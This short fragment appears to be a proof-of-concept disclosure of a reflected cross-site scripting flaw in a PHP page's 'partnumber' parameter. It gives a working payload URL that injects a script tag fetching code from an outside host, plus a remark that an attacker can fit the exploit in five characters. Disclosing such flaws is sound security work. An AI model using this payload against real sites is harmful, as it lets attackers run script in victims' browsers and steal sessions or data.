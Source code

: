PoC:
Payload: http://localhost:80/showPart.php?partnumber=<script+src%3D%2F%2F2c.io>&submit=Go

The result, it will GET the link: 2c.io (this link is sample, the attacker can design with 5 characters to exploit).

![imgXSS](image.png)